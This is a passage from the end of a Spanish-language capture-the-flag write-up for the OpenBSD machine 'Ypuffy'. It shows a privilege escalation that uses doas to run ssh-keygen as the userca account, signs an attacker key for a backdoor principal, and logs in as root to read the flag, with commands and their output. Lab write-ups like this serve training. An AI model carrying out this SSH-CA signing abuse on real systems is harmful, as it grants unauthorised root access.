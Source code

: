 Ya tenemos la zona, ahora pasemos al firmado.

## Signing key to trusted CA

Como hemos visto, el archivo de CA solo podía ser accedido por el usuario userca, por lo que tomando en cuenta las capacidades de DOAS, firmamos nuestro certificado para que tenga acceso a la misma zona de root.

``` text
ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I miau3 -n 3m3rgencyB4ckd00r -z 1 /tmp/.miu/meh.pub
Signed user key /tmp/.miu/meh-cert.pub: id "miau3" serial 1 for 3m3rgencyB4ckd00r valid forever
```

Finalmente, ingresamos como root usando el certificado que acabamos de autorizar.

# login as root

``` text
ypuffy$ ssh root@127.0.0.1 -i meh
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
ypuffy# ls
.Xdefaults .cache     .cshrc     .cvsrc     .login     .profile   root.txt
```

# cat root.txt

`ypuffy# cat root.txt`

... We got root flag.

---

Gracias por llegar hasta aquí, hasta la próxima!
